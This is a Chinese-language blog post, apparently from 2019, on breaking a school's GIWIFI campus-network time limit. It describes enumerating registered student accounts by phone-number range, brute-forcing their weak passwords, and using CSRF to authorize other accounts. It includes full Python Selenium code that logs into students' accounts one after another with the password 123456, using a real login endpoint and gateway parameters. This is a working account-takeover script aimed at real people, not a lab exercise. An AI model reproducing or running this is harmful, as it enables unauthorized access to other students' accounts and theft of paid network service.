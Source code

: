 ```yaml
---
layout: post
title:  "GIWIFI 破解思路"
date:   2019-1-16 20:49:43 
author: co0ontty
categories: python Tools ALL 
tags: python Tools ALL
describe: Giwifi 登录时间限制破解
cover: 'https://i.loli.net/2019/04/05/5ca6ba3c2d9ee.png'
---
```


## 发现思路

#### 账号

1、我所在的学校使用 GIWIFI 的校园网解决方案，登陆账号为学生本人的手机号。学校学生使用的手机号均为学校内运营商入学时发放的校园卡，均处在一个号段，每个账号每天拥有 15 分钟的免费时长。
2、手机号如果注册过 GIWIFI，正确登陆后便可使用互联网服务。如果账号未注册 GIWIFI，使用任意密码登录后便会要求填写身份信息。根据这项区别便可使用手机号段字典爆破出注册过的账号。

#### 密码

GIWIFI 官方要求使用的密码为 6 位及以上，所以使用弱口令字典进行爆破。  

#### 登陆

有了账号和密码，便需要解决登陆问题。我的思路是使用 python 进行自动登录。同时可以使用 CSRF 攻击实现越权对其他账号上网状态进行授权

## 实现过程

##### 1、使用 python 的 webdriver 库，自动打开校园网的登陆链接

```py
wd = webdriver.Chrome()

wd.implicitly_wait(10)  

wd.set_page_load_timeout(10)

wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?
gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")  

wd.maximize_window()
```

最后一行代码指定 python 调用浏览器后的显示方式为最大化，如果要静默使用可以将 maximize 换成 minimize  

##### 2、传递用户名密码参数，并点击登陆

```py
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框. 

pass_input = wd.find_element_by_id('first_password')  

login_button = wd.find_element_by_id('first_button')  

name_input.clear()  

name_input.send_keys(phonenumber[0])  # 填写用户名  

time.sleep(0.2) 

pass_input.clear()

pass_input.send_keys(123456)  # 填写密码

time.sleep(0.2)

login_button.click()         # 点击登录

wd.implicitly_wait(4)

wd.quit()
```

##### 3、其他工作

·关于用户名密码，我选择的方式是存在文件里，然后使用 python 读文件的方式向网页中传递参数。  
·关于 wd 库，之所以选择 wd 库是因为这样可以看到登陆的状态，若果选择通过 requests 库直接传递参数，便不会在第一时间发现网络连接不通畅和详细的问题。  
·关于自动登录，使用 sh 的 ping 命令原理，新建脚本，每五分钟运行一次，断网后自动调用 python 脚本。 

## 全部代码

```py
# -*- coding:utf-8 -*-

from selenium import webdriver
from selenium.webdriver.support.wait import WebDriverWait
from selenium.webdriver.support import expected_conditions as EC
from selenium.common.exceptions import NoSuchElementException
from selenium.webdriver.common.by import By
import time


# option=webdriver.ChromeOptions()
# option.add_argument('--headless')
# option.add_argument('--no-sandbox')
# option.add_argument('--start-maximized')
# wd = webdriver.Chrome(chrome_options=option)


wd = webdriver.Chrome()
wd.implicitly_wait(10)
wd.set_page_load_timeout(10)
wd.get("http://login.gwifi.com.cn/cmps/admin.php/api/login/?gw_address=172.16.1.5&gw_port=8060&gw_id=GWIFI-qingdaoshankedaD2&ip=172.17.142.232&mac=F0:18:98:19:70:D9&url=http://www.baidu.com?ua=Mozilla&apmac=00:0b:ab:f1:c6:d4&ssid=")
wd.maximize_window()
file = open("giwifi2.txt")
phonenumber = file.readlines()
for i in range(len(phonenumber)):
    phonenumber[i] = phonenumber[i].replace("\n","") 
    pass
# print(phonenumber[0])
# print(type(phonenumber))

"""这段可以查看selenium的源码,属于smart wait"""
name_input = wd.find_element_by_id('first_name')  # 找到用户名的框框
pass_input = wd.find_element_by_id('first_password')
login_button = wd.find_element_by_id('first_button')
name_input.clear()
name_input.send_keys(phonenumber[0])  # 填写用户名
time.sleep(0.2)
pass_input.clear()
pass_input.send_keys(123456)  # 填写密码
time.sleep(0.2)
login_button.click()         # 点击登录
wd.implicitly_wait(4)
wd.quit()
print (phonenumber[0])
del phonenumber[0]
file.close()
file = open("giwifi2.txt", "w")
for i in range(len(phonenumber)):
    file.write(phonenumber[i])
    file.write("\n")
    pass
file.close()
print ("All Done")
exit()
```

